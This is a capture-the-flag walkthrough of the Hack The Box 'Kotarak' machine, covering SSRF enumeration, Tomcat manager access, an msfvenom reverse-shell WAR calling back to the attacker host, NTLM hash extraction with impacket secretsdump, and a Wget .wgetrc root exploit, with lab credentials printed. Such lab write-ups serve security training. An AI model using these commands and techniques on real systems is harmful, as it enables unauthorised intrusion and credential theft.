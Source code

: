 ```yaml
---
title: "Hack The Box - Kotarak"
tags: [linux,hard,ssrf,tomcat,ntds.dit,ntlm,secretsdump,wget,cronjob]
categories: HackTheBox-Linux
---
```



![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png)

## *NMAP*
This Machine is the Hard level machine so i will prefer the Full Port Scan :- 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nmap.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nmap.png)


## *Enumerating [ SSRF ]*

-> So on port 8080 we have our Tomcat running . On port 60000 we have an webpage that sends an GET request on the url provided :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)

-> If we try to read /etc/passwd the The word **`file`** is filtered which stops us from reading local files. Although we are able to use [localhost](http://localhost) and access this and the tomcat page :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png)

=> Scanning Ports on [localhost](http://localhost) using wfuzz 

**`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`**
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png)

→ [localhost:888](http://localhost:888) has interesting things :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png)

→ Taking a look at **backup** option.

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png)

We got credentials for tomcat

```
admin : 3@g01PdhB!
```

⇒ Logged in on tomcat manager page. Uploaded a WAR msfvenom shell and popped a shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f war > shell.war
```
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png)

*Starting out netcat 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png)

---

### *Privilege Escalation [ tomcat to atanas ]*

⇒ In /home/tomcat/to_archive/pentest_data  folder we find 2 interesting files which looks like one of them is ntds.dit and the other is system registry file
   .dir file contains the details for the ad environment and .bin is registry file  :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png)

Lets run [secretsdump.py](http://secretsdump.py) [ a tool from impacket ] to retrieve ntlm hashes

```bash
impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL
```  

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png)

→ Cracking the NTLM hash

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png)

→ The credentials work and we are able to switch to user atanas : 

**`atanas : f16tomcat!`**

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png)

### *Privilege Escalation to Root*

⇒ We are able to read and write files in root directory. We find the following :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png)

→ Looks like there's another   machine on the network with the ip [ 10.0.3.133 ] which is running an wget request  on  http server. We can also see the version of Wget being used  ( Wget/1.16 ). There's an exploit for this version of wget being used

Exploit : [https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064)

```bash
GNU Wget before 1.18 when supplied with a malicious URL (to a malicious or 
compromised web server) can be tricked into saving an arbitrary remote file 
supplied by an attacker, with arbitrary contents and filename under 
the current directory and possibly other directories by writing to .wgetrc.
Depending on the context in which wget is used, this can lead to remote code 
execution and even root privilege escalation if wget is run via a root cronjob 
as is often the case in many web application deployments.
```

⇒ So in this exploit we will create a 301x redirect , when the user machine  try to access that wget archive  file it will redirected to the  ftp server and that ftp server will be running  on our own attacker machine that will serve a malicious file which will give us root access 

→ Creating malicious .wgetrc File on our Own machine  that we will be serving :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png)


=> Run pythonftp server on attacker machine , i.e our own machine 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png)

First we need to Edit our exploit and then transfer it into our victim machine  Using python http server on attcker  and wget on victim  :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wget.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wget.png)

=> Start Nc Listener 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nc%20lis.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nc%20lis.png)

=> Runing exploit.py on Victim server but it doesn't allow us to do so. There is authbind on the system which allows a program which does not or should not run as root to bind to low-numbered ports in a controlled way

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/auth%20python.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/auth%20python.png)

=> After Waiting for Few Minutes it will give us a shell ( be patience  it will take time ) 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/sad.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/sad.png)









